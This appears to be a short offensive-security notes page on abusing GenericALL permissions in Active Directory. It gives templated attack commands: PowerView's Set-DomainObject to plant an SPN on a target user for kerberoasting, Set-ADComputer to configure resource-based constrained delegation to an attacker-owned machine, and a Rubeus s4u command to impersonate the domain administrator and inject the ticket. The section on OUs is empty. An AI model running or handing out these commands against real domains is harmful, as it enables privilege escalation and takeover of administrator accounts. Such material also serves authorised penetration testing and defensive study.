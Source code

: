 # GenericALL

## Abuse

### On a User

If we have sufficient right, a target user's SPN can be set to anything in the domain (unique in the domain) and then kerberoasted

To set the SPN to the user using powerview:

{% code overflow="wrap" %}
```powershell
Set-DomainObject -Identity <$Target user> -Set @{serviceprincipalname='<$Domain/myspn>'}
```
{% endcode %}

now you can [kerberoast ](../kerberoasting.md)it.

### On a OU





### Over Computer Object

Set RBCD to a machine that yoy own:

{% code overflow="wrap" %}
```
Set-ADComputer -Identity <$Target> -PrincipalsAllowedToDelegateToAccount <Owned$> -Verbose
```
{% endcode %}

Now use rubeus to use a s4u attack

{% code overflow="wrap" %}
```powershell
Rubeus.exe s4u /user:<Own>$  /aes256:<aes256>/msdsspn:<$service target> /impersonateuser:administrator /ptt
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(7).png" alt=""><figcaption></figcaption></figure>

\
